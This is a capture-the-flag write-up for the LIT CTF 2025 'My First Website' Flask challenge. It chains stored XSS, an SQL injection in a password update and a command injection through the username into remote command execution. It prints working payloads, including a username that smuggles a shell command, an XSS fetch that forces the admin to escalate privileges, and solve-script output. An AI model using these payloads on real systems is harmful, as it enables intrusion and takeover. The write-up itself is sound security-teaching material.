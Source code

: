 
# WhiteDukesDZ - LIT CTF 2025 Writeup: My First Website Challenge

![WhiteDukesDZ Logo](challenge/my-first-website.png)

We were also provided with the `app.py`, `schema.sql`, `init_db.py` file as part of this challenge.

---

## Challenge Summary

This challenge presented a simple Python Flask web application simulating a contact panel where users can report issues in comments. The goal was to analyze the application for vulnerabilities and exploit them to retrieve the flag.

## Provided Files
- `app.py` (Flask web app)
- `schema.sql` (The schema of SQL tables used by the web application)
- `init_db.py` (The python script that initialize the database with the tables provided in schema)

## Application Analysis

After reviewing `app.py`, we identified eight main endpoints:

1. **`/` (Home):**
    - If `username` is not set in the session, redirects to `/login`.
    - Otherwise, renders the main page with user own `comments`.

2. **`/login`:**
    - Accepts `GET` and `POST` requests.
    - On `GET`, renders the login form, the form have two inputs `name` and `password`.
    - On `POST`, verifies the existence of the `username` and `password` in database:
      - If the credentials are correct, redirects to `/`.
      - If the credentials are incorrect, redirects to `/login` and display `Invalid credentials` message.

3. **`/signup`:**
    - Accepts `GET` and `POST` requests.
    - On `GET`, renders the login form, the form have four inputs `name`, `email`, `password` and `confirm`.
    - On `POST`, verifies:
      - If `password` != `confirm`, redirects to `/signup` and display `passwords do not match` message.
      - If `username` already exists in database, redirects to `/signup` and display `user already exists` message.
    Otherwise, <ins>inserts the new user into the database without any further sanitizations</ins>, and redirects to `/login`

4. **`/contact`:**
    - Accepts only `POST` requests with `comment` in request body.
      - If `username` is not set in session, redirects to `/login`.
    Otherwise, <ins>inserts the new `comment` into the database without any further sanitizations</ins>, and shows the submission message.



5. **`/admin`:**
    - verifies if user is not admin, shows a `403` Error (Unauthorized).
    Otherwise, shows the admin page with <ins>all comments</ins> displayed. 

6. **`/updatePassword`:**
    - Accepts only `POST` requests with `newPassword` in request body.
      - verifies if user is not admin, shows a `403` Error (Unauthorized).
    Otherwise, update the currently connected user password to `newPassword` without any further sanitizations.

7. **`/resetDB`:**
    - Accepts only `POST` requests.
      - verifies if user is not admin, shows a `403` Error (Unauthorized).
    Otherwise, runs a shell command with current `username` that will reset the database and set the current user to admin.
      - If command fails, shows `DB RESET FAILED` message.
      - If command succeed shows `Success` message.

8. **`/logout`:**
    - Log out the currently connected user and redirects to `/`.

### Security Observations

- The `/contact` endpoint does not filter for XSS payloads in the `comment` field. For example, setting `comment` to `<script>alert('WhiteDukesDZ')</script>` will execute the JavaScript payload:

  ![WhiteDukesDZ Logo](demonstration/xss.png)

In the challenge description it is mentioned that <ins>the admin frequently checks the website.</ins> And because the `/admin` ednpoint shows all comments, we definetly can exploit this XSS vulnerability to make the admin perform malicious actions.

- The `/updatePassword` endpoint use a vulnerable SQL query to update password.

```python
cur.execute(f"UPDATE users SET password = '{newPassword}' WHERE username = '{session.get('username')}'")
```

This query is vulnerable to SQL injection.

- The `/resetDB` endpoint runs a shell command with user controlled input `username`. Meaning this endpoint is vulnerable to command injection.

```python
result = subprocess.run(f"python init_db.py {session.get('username')}", shell=True)
```

- There is no CSRF protection in `/updatePassword`, nor `/resetDB`. Meaning we can use that XSS vulnerability from `/contact` in order to make the admin exploit that SQL injection in `/updatePassword` and the command injection in `/resetDB`.
---

## Solution

Based on our Application Analysis and Security Observations, we can execute commands using this strategy:

- Create a new account with a malicious `username` that will contain the command we want to execute `username=; echo $(ls -al) > static/output.txt ;#`. If this `username` is used in the shell command that will run when accessing `/resetDB` it will result in this command being executed:

```python
result = subprocess.run(f"python init_db.py ; echo $(ls -al) > static/output.txt ;#", shell=True)
```

- Log In with our newly created user.

- Insert a malicious `comment` containing our XSS payload. We want a XSS payload that will result in admin exploiting the SQL Injection in `/updatePassword` to update our newly created user to `admin=1` in database. We can achieve that by making admin POST to `/updatePassword` with `newPassword=dummy', admin=1 WHERE admin=0--` this will result in this SQL query being executed:

```python
cur.execute(f"UPDATE users SET password = 'dummy', admin=1 WHERE admin=0--' WHERE username = '{session.get('username')}'")
```

So our final XSS payload will be:

```html
<script>
fetch("/updatePassword", {
  method: "POST",
  headers: {"Content-Type": "application/x-www-form-urlencoded"},
  body: "newPassword=dummy', admin=1 WHERE admin=0--"
});
</script>
```

- After the admin visits `/admin` the XSS payload gets executed, We access `/resetDB` with our newly created user (Since our newly created user will be admin).

- Verifies `/static/output.txt`, to see the output of our executed command.

We automated this process in `solution/solve.py`. To run the exploit against the remote instance provided by LIT CTF:

```sh
python3 solve.py <command_here>
```

If successful, the script will output the result of command execution:

```sh
┌──(s450r1㉿S450R1)-[~/…/lit-ctf-writeups/web/my-first-website/solution]
└─$ python3 solve.py "ls -a"
Account created successfully.
Logged in successfully.
Comment sent successfully.
Database reset successfully.
=== OUTPUT ===
. .. __pycache__ admin_bot.py admin_bot2.py app.py database.db entrypoint.sh error.log flag-9f8df47e-782d-4eec-be9a-1f80df3768e3.txt flask_session info.log init_db.py requirements.txt run.sh run_old.sh schema.sql static templates

┌──(s450r1㉿S450R1)-[~/…/lit-ctf-writeups/web/my-first-website/solution]
└─$ python3 solve.py "cat flag-9f8df47e-782d-4eec-be9a-1f80df3768e3.txt"
Account created successfully.
Logged in successfully.
Comment sent successfully.
Database reset successfully.
=== OUTPUT ===
LITCTF{us3rn4m3_1nj3c710n_7f62be7ddc0d597f}
```


